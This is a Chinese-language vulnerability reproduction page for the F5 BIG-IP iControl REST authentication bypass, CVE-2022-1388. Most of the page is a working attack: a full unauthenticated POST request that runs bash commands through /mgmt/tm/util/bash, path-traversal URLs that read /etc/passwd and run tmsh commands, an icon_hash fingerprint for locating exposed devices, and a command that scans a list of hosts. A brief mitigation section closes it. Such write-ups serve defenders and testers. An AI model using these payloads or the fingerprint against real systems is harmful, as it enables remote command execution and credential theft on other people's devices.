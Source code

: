 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](images/202205241449854.png)

文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。
